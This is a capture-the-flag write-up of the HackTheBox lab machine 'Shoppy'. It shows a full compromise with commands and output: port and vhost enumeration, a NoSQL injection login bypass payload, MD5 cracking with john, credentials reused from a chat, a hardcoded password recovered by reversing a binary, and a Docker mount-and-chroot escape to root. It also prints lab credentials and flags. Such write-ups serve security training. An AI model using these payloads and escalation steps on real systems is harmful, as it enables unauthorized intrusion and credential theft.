








# Shoppy - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22``` and ```80```.

***User 1***: By utilizing NoSQL Injection, login authentication is bypassed. By searching for a user, the hash of `josh` is found and cracked. Using these credentials, access is gained to `mattermost.shoppy.htb`. On `mattermost`, the credentials for the user `jaeger` are discovered and used for SSH login.

***User 2***: By running the command `sudo -l`, it is determined that the binary `password-manager` can be run as the user `deploy`. By reversing the binary, the binary's authentication password is found and it is discovered that the binary prints the credentials of the `deploy` user.

***Root***: Through the use of Docker container escape, restricted environments are bypassed and an interactive system shell is spawned, providing `root` access to the machine.




## Shoppy Solution

### User 1

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar@parrot]─[/hackthebox/Shoppy]
└──╼ $ nmap -sV -sC -oA nmap/Shoppy 10.10.11.180
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-24 22:46 IDT
Nmap scan report for 10.10.11.180
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing [http://shoppy.htb](http://shoppy.htb), we see that the following web page is hosted:


Let's use the tool `gobuster` to discover potential subdomains in order to broaden the scope of our attack:
```console
┌─[evyatar@parrot]─[/hackthebox/Shoppy]
└──╼ $ gobuster vhost -u http://shoppy.htb/ -w bitquark-subdomains-top100000.txt -o vho -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb/
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/26 22:17:29 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                
```

When we access the website http://mattermost.shoppy.htb, we are presented with a web page that displays a login form.


After spending a few minutes testing the authentication logic of the initial web page, we suspect that it is using a MongoDB NoSQL database. We can use the payload `admin'||'1==1` to bypass the authentication:


We gain access to the following dashboard:



By clicking on [Serch for users](http://shoppy.htb/admin/search-users) and using the same payload ```admin'||'1==1``` we get:



By clicking the "Download export" button, it returns a JSON file containing the following data:
```json
[
	{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},
	{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}
]
```

By using the tool john, the hash of the user `josh` is cracked:
```console
┌─[evyatar@parrot]─[/hackthebox/Shoppy]
└──╼ $ john --format=Raw-MD5 --wordlist=~/Desktop/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (?)
1g 0:00:00:00 DONE (2022-10-26 22:40) 7.692g/s 6245Kp/s 6245Kc/s 6245KC/s renato123456..remaryl
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

```

We have acquired the login credentials `josh:remembermethisway`.

By utilizing the credentials `josh:remembermethisway` to log in to http://mattermost.shoppy.htb, we are able to access the user's account and view the chat history:



In the `Deploy Machine` chat, we discovered the following credentials:



```console
username: jaeger
password: Sh0ppyBest@pp!
```

We were able to confirm that the credentials `jaeger:Sh0ppyBest@pp!` work by using them to log in to the machine via SSH:
```console
┌─[evyatar@parrot]─[/hackthebox/Shoppy]
└──╼ $ ssh jaeger@shoppy.htb
The authenticity of host 'shoppy.htb (10.10.11.180)' can't be established.
ECDSA key fingerprint is SHA256:KoI81LeAk+ps7zoc1ru39Mg7srdxjzOb1UgmdW6T6kI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shoppy.htb,10.10.11.180' (ECDSA) to the list of known hosts.
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jaeger@shoppy:~$ cat user.txt 
c9bcaf18f6ed70b9ea12bbbac55f4200
```

And we get the user flag ```c9bcaf18f6ed70b9ea12bbbac55f4200```.

### User 2

By executing the command `sudo -l`, we obtain the following information:
```console
jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

We can copy the binary to our local machine and use the tool `ghidra` to reverse it. By analyzing the main function, we observe the following:



As we can see, the program compares the user input (stored in `local_48`) with a predefined password `Sample`. By using the password `Sample`, we can access the program's functionality:
```console
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

By using the predefined password `Sample`, we are able to obtain the credentials of the user `deploy`. We can then use these credentials to log in to the machine via SSH:
```console
┌─[evyatar@parrot]─[/hackthebox/Shoppy]
└──╼ $ ssh deploy@shoppy.htb 
deploy@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ 
```

### Root

From the chat on `mattermost` we observe a hint about `docker`. By executing the command docker images, we can view the following images:
```console
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   3 months ago   5.53MB

```

We can use the discovered image to create a new Docker container:
```console
$ docker run -it d7d3d98c851f /bin/sh
/ # 
```

After inspecting the container, no useful information was found. We can use techniques like [docker container escape](https://gtfobins.github.io/gtfobins/docker/) to break out of the container's restricted environment and gain access to the host system. This can be done by using techniques such as spawning an interactive system shell:
```console
$ docker run -v /:/mnt --rm -it d7d3d98c851f chroot /mnt sh 
# cat /root/root.txt
c9480bfd5bb1c7ff5649bcc6de09079a
```

And we get the root flag ```c9480bfd5bb1c7ff5649bcc6de09079a```
